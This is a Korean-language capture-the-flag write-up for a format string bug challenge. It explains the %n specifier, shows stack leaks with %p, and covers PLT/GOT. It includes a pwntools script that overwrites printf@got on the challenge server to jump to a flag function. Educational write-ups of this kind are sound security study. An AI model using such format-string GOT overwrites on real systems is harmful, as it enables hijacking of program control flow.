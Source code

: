 ## 사전지식  
FSB가 뭘 까요?   
FSB - 포맷스트링 버그 취약점의 줄임말.   
```
int main(int argc,char *argv[])
{
  char buf[256];
  strncpy(buf,argv[1],sizeof(buf));
  printf(buf);
}
```   
이런식으로 포맷스트링을 지정하지 않을 시 FSB취약점을 이용해 임의의 악성코드도 실행할 수 있다.
포맷스트링 = 형식지정자. 우리가 아는 %d, %c ...    
이 중 우리가 모르는 %n라는 포맷스트링 지정자가 있는데, 
```   
char buf[] = "abcde";
printf("%s %n\n",buf,&n);
```    
이 지정자는 출력한 문자열의 개수를 특정 메모리에 써주는 역할을 한다.   
다시 위 코드로 가서, 여기서 문제는 바로 c언어에 포맷스트링 문자를 넣었을 경우 발생하는데,   
음 해보면 알거다.   
쨋든 printf()함수는 포맷스트링 문자를 만나면 스택에 저장된 값을 하나씩 뽑아서 출력해준다.   
ret, ebp, buf...그냥 스택에 있는 값을 접근해 출력할 수 있다.   
그리고 가장 중요한건 만약   
```
printf("ccddeedfads..%x%x%x%n",&n)
``` 
이렇게 된다면 n의 주소에는 여태까지 출력한 문자열의 개수를 덮어쓸 수 있다.   
원하는 개수로 주소를 변조해 들어갈 수 있다는 뜻.   
이걸로 우리가 
## 풀이    
문제에서 FSB를 쓰라고 되어있으니 한번 체크헤보자.   
는 개 쌉소리고 ida로 보면 위 형식처럼 snprintf()/printf()에 포맷스트링문자를 지정하지 않은 채 받는 걸 볼 수 있다.   

```
BBBB %p %p %p %p    
```  
> BBBB (nil) 0x42424242 0x20702520 0x25207025       
자 보면 두 번째 포맷스트링에서 우리가 입력한 BBBB를 주소로 바꾼 값을 포인팅 한다는게 보이지 않는가?    
즉 BBBB는 0x42424242라는 주소가 되고, 그 주소에 %n으로 만들어진 값이 채워지는 것을 알 수 있다.   
예시를 들자면 BBBB %x %n를 했을 때, 4+1(공백)+4(%x)+1 = 10이 %n의 위치, 여기서는 0x42424242에 들어간다.   
다시 ida로 돌아가면 flag함수가 눈에 보인다. 그러면 이 flag함수를 실행하기 위해서 
다른 라이트업을 보면 뭔 printf@got를 overwrite하라는데 우리 늅늅이들은 이딴 소리가 뭔지 모를 것이다.   
간-단하게 설명하자면, 함수 호출 시 plt와 got이 있는데, 우리가 함수를 호출하는 것은 정확히 함수의 plt를 호출하는 것이고,   
이때 got으로 jmp하게 된다. 그럼 got에는 뭐가 있느냐?   
바로 함수의 원래 주소가 들어가 있는 것이다. 이유를 설명하면 길어지니 링크를 달아놓겠다.   
<https://bpsecblog.wordpress.com/2016/03/07/about_got_plt_1/>   
그럼 printf()함수를 더블클릭해 got주소를 알아냈으니, 이제 파이썬 코드를 짜보자!    

```   
from pwn import *

r = remote('ctf.j0n9hyun.xyz',3002)
flag = 0x080485B4
decflag = '%'+str(int(flag)-4)+'x'+'%n'
print_got = 0x804A00c
p = p32(print_got)
p+=decflag
r.sendline(p)
r.interactive()
```   
자 코드 해석 간다!!     
일단 위의 내용을 잘 읽었다면 %n는 출력한 문자열의 개수를 특정메모리에 쓴다고 배웠다.   
일단 printf@got의 주소를 입력해주고 flag주소값의 크기-4만큼 출력하도록 할꺼다.   
그래서 나는 flag주소를 int로 바꾸고 -4, 즉 printf@got의 주소의 크기만큼 빼준값의 크기를 %x사이에 넣고,   
%n을 통해서 printf@got주소에 값을 넣으면 printf()가 실행 될때 flag가 실행 될 것이다.   
DUT!!!!!!!!!     





